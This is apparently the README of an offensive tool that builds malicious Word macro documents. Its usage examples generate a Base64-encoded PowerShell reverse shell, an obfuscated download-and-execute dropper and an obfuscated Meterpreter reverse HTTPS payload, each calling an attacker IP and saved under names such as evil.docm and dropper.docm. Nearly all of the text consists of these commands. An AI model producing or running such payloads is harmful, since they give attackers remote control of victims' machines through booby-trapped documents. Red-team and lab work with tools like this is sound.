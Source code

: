 ### Help

```bash
# Show general help and list available macros
python main.py --help

# Show detailed help for a specific macro
python main.py --help reverse_shell
```

## Examples

```bash
# Simple reverse shell macro (clean)
python main.py --macro reverse_shell --ip 10.10.14.8 --port 4444 --output shell.docm

# Obfuscated PowerShell payload delivery
python main.py --macro download_execute --url http://10.10.14.8/file.exe --method webclient --output dload.docm

# Obfuscated reverse HTTPS Meterpreter shell
python main.py --macro metasploit_runner --payload windows/x64/meterpreter/reverse_https --lhost 10.10.14.8 --lport 443 --output evil.docm --obf
```

## Macro Descriptions

### 1. `messagebox` / `messagebox_obf`
- Purpose: Display a message box to confirm macro execution.
- Params: None.
- Example:
  ```bash
  python main.py --macro messagebox --output info.vba
  ```

### 2. `reverse_shell` / `reverse_shell_obf`
- Purpose: Launch a Base64-encoded PowerShell reverse shell.
- Params:
  - `--ip`: Attacker IP
  - `--port`: Listener port
- Example:
  ```bash
  python main.py --macro reverse_shell --ip 192.168.1.100 --port 4444 --output rsh.docm
  ```

### 3. `download_execute` / `download_execute_obf`
- Purpose: Download and execute a file using PowerShell (`WebClient` or `Invoke-WebRequest`).
- Params:
  - `--url`: File to download
  - `--method`: `webclient` or `iwr`
- Example:
  ```bash
  python main.py --macro download_execute --url http://host/file.exe --method iwr --output dropper.docm
  ```
